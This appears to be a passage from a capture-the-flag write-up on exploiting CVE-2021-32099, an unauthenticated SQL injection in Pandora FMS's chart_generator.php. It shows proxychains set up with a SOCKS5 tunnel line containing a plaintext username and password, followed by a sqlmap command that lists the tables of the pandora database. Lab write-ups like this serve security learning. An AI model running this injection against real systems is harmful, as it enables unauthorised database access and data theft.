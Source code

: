 ### Exploitation of Pandora FMS

CVE-2021-32099 states that there is an unauthenticated SQL injection vulnerability in this software.
And the [blog post](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained) explains that it is located in the `chart_generator.php` 's `sessions_id parameter

Before we run `sqlmap`, we need to use a tool called `proxychain` to route the `sqlmap` traffic through the proxy tunnel to perform the attack.

After installing `proxychain` using `sudo apt-get install proxychains`, we will configure the file located at `/etc/proxychains`.

Add line `socks5 127.0.0.1 9999 daniel HotelBabylon23`

Then run `sqlmap` through `proxychains`:

```bash
proxychains sqlmap --url="[http://localhost/pandora_console/include/chart_generator.php?session_id=](http://localhost.localdomain/pandora_console/include/chart_generator.php?session_id=)''" -D pandora --tables
```

![](_attachments/pandora9.PNG)
